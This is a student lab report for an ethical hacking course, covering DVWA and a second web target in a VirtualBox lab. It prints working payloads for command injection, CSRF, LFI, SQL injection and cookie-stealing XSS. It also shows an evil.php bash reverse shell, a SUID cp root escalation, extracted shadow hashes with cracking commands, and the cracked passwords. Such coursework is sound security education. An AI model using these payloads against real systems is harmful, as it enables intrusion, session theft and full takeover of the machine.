# Lab 3 – Web Application Attacks  

**Course:** Ethical Hacking (GDT3CR)  
**Platform:** VirtualBox  
**Target VM:** WebapplicationLab.vmdk  
**Attacker Machine:** Kali Linux  
**User:** freesensei  

---

# 3.1 Damn Vulnerable Web Application (DVWA)

## 3.1a Brute Force

### Goal
To bypass the login mechanism by performing a dictionary-based brute force attack.

### Method
The login GET request was intercepted using Burp Suite (Intercept ON) and forwarded to **Intruder**.  
A Sniper attack was configured against the password parameter using a wordlist containing the 10,000 most common passwords.

A **Grep Match** filter was configured to detect successful login responses based on response length and absence of the string:

```
Username and/or password incorrect.
```

### Result
Valid credentials were identified through response deviation.



---

## 3.1b Command Injection

### Goal
Achieve Remote Code Execution (RCE) via vulnerable ping functionality.

### Injected Payload

```bash
127.0.0.1; whoami; hostname; ifconfig; ls ~/
```

The semicolon (`;`) allowed command chaining.

### Result
The output revealed:

- Running user: `www-data`
- Hostname: `pentestserver`
- Network configuration
- Home directory listing



---

## 3.1c Cross-Site Request Forgery (CSRF)

### Goal
Force a logged-in user to change their password without consent.

The captured URL was modified to:

```
http://10.0.0.146/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change
```

If a victim clicks the link while authenticated, the password changes immediately due to lack of CSRF token validation.

---

## 3.1d File Inclusion (LFI)

### Goal
Access restricted system files.

By exploiting directory traversal:

```
../../../../../../etc/passwd
```

### Result
The `/etc/passwd` file was successfully exposed, revealing system users including:

- root  
- www-data  
- bobby  



---

## 3.1e File Upload

### Goal
Execute arbitrary PHP code on the server.

A malicious PHP file was created:

```php
<?php
phpinfo();
?>
```

The file was uploaded as:

```
phpinfo.php.txt
```

Then accessed via:

```
../../hackable/uploads/phpinfo.php.txt
```

### Result
The PHP configuration was displayed, confirming code execution.



---

## 3.1f SQL Injection

### Goal
Extract users and password hashes from the database.

### Injected SQL

```sql
' UNION SELECT user, password FROM users#
```

### Result
The following users and password hashes were extracted:

- admin  
- gordonb  
- 1337  
- pablo  
- smithy  



---

## 3.1g–i Cross-Site Scripting (XSS – DOM, Reflected, Stored)

### Goal
Steal session cookies (PHPSESSID).

### Payload Used

```html
'><script>window.location="http://127.0.0.1:1337/?cookie="+document.cookie</script>
```

A Python HTTP server was started on port 1337 to capture incoming requests.

### Result
When the victim triggered the XSS vulnerability, their session cookie (e.g. `sqgiriog7tspgd8e63d6b1ove`) was sent in plaintext to the attacker's listener.



---

# 3.2 Web Application Attacks (Target 1.2)

---

## 3.2.1 SQL Injection (Guestbook)

### Goal
Bypass authentication and access the protected guestbook.

### SQL Used

```sql
' OR 1=1#
```

SQLmap confirmed that the POST parameter `password` was vulnerable to **time-based blind SQL injection**.

Example payload used by SQLmap:

```
username=admin&password=1' AND (SELECT 6672 FROM (SELECT(SLEEP(5))))#
```

### Result
Access to the protected guestbook was obtained.

  


---

## 3.2.2 LFI (Local File Inclusion)

### Vulnerable Parameter

```
LoadLang.php?selectLang=
```

### Exploit

```
../../../../../../etc/passwd
```

### Result
Restricted system files were successfully accessed.



---

## 3.2.3 RFI (Remote File Inclusion) & Reverse Shell

### Malicious PHP File (evil.php)

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.183/4444 0>&1'");
?>
```

A Netcat listener was started:

```bash
nc -nlvp 4444
```

### Result
Reverse shell obtained as:

```
www-data
```



---

## Privilege Escalation (Root Compromise)

### Enumeration
After gaining shell access as `www-data`, local enumeration revealed that:

```
/bin/cp
```

had the SUID bit set.

### Exploitation Steps

1. Downloaded `/etc/passwd`
2. Added new user:

```
hacker:x:0:0:hacker:/root:/bin/bash
```

3. Upgraded shell to interactive TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

4. Overwrote system passwd file:

```bash
/bin/cp passwd.copy /etc/passwd
```

5. Switched user:

```bash
su hacker
```

### Result

```
whoami
root
```

Full root compromise achieved.



---

# 3.2.4 Attack Summary Report

## a) Vulnerabilities and Prevention

### SQL Injection
Occurs when untrusted input is embedded directly into SQL queries.  
**Prevention:** Use Prepared Statements / Parameterized Queries.

### LFI / RFI
Occurs when file paths are not properly validated.  
**Prevention:**  
- Whitelist allowed files  
- Disable `allow_url_include`  
- Proper input validation  

### XSS
Occurs when user input is reflected without encoding.  
**Prevention:**  
- Input validation  
- Output encoding (HTML escaping)  
- Use Content Security Policy (CSP)

### SUID Misconfiguration
Improper SUID permissions allow privilege escalation.  
**Prevention:**  
- Regular SUID auditing  
- Remove unnecessary SUID bits  

---

## b) Revealed System Accounts and Passwords

After obtaining access to `/etc/shadow` via privilege escalation, the password hashes were extracted for offline cracking.

### Extracted SHA512 Hashes

```
root:$6$UFCkQvbe$m1tMWI2YnFNAYk8DQGK3bGy9/zSkbhlVlmiyYU.g0gu0KzxZ7SOvmjQt/7Ua2hdz1/n.xzSggWNvKSFF5Wfjv.
bobby:$6$gSfGcKdiS4apAy2z$4xj.ItKrp2kOFZ0RZydCThBkf5SVaGIn3Lk5jDhRGvpK/ZwQbPZZFbp.hG8zge/UHbX/jYFwLPZCyA3UEYg9N/
```

The `$6$` prefix indicates **SHA512crypt** hashing.

---

### Password Cracking Method

The hashes were copied into a file (`shadow.txt`) and cracked offline using both:

- **John the Ripper**
- **Hashcat**

Example commands used:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
```

```bash
hashcat -O -a 0 -m 1800 shadow.txt /usr/share/wordlists/rockyou.txt
```

Hash mode `1800` corresponds to **sha512crypt**.

---

### Cracked Credentials

| User   | Password                |
|--------|--------------------------|
| bobby  | strongpass               |
| root   | system-administration    |

---

### Impact

Cracking these credentials demonstrates full data exfiltration and total system compromise.  
Since the root password was successfully recovered, an attacker could authenticate directly via SSH or switch user (`su root`) without exploiting further vulnerabilities.

This concludes the complete attack chain:

SQL Injection → File Inclusion → Reverse Shell → Privilege Escalation → Password Cracking → Root Compromise

---

# 3.3 Lab Feedback

## Relevance

The lab was highly relevant and directly connected to OWASP Top 10 vulnerabilities.  
It provided hands-on experience across the full attack chain:

SQL Injection → File Inclusion → Reverse Shell → Privilege Escalation → Root compromise.

## Suggestions for Improvement

- Provide updated reverse shell examples for modern Netcat versions without `-e`.
- Include a short troubleshooting guide for common tool/version conflicts.
- Possibly provide an optional advanced challenge section.

---

## Ethical Disclaimer

All activities were performed in a controlled lab environment for educational purposes only.  
No unauthorized systems were targeted.